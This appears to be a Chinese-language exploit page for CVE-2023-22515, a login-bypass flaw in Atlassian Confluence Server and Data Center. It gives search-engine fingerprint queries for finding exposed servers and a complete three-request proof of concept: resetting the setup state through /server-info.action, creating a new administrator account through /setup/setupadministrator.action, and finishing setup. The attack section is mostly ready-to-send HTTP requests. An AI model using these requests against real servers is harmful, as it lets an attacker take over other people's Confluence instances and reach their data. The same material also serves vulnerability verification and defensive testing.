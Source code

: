 # Atlassian Confluence server-info.action 登陆绕过漏洞 CVE-2023-22515

# Atlassian Confluence server-info.action 登陆绕过漏洞 CVE-2023-22515

## 漏洞描述

Atlassian Confluence 是 Atlassian 开发的一款建基于网络企业维基 (collaboration software) 的软件。

Atlassian Confluence 数据中心和服务器存在漏洞，利用 /server-info.action 端点传递 bootstrapStatusProvider.applicationConfig.setupComplete 参数，使服务器处于安装未完成状态，以访问受限制的端点并创建未经授权的 Confluence 管理员帐户，登录 Confluence 实例后台。

## 漏洞影响

Atlassian Confluence

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

```
title=="登录 - Confluence"
```

## 漏洞复现

登录页面

![image-20231115105058055](images/image-20231115105058055.png)

poc

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
```

![image-20231115105137183](images/image-20231115105137183.png)

```
POST /setup/setupadministrator.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
Content-Length: 126

username=bbvpe4mk&fullName=bbvpe4mk&email=bbvpe4mk@localhost&password=6wg6pm6sP123&confirm=6wg6pm6sP123&setup-next-button=Next
```

![image-20231115105146193](images/image-20231115105146193.png)

```
GET /setup/finishsetup.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
```

![image-20231115105154694](images/image-20231115105154694.png)


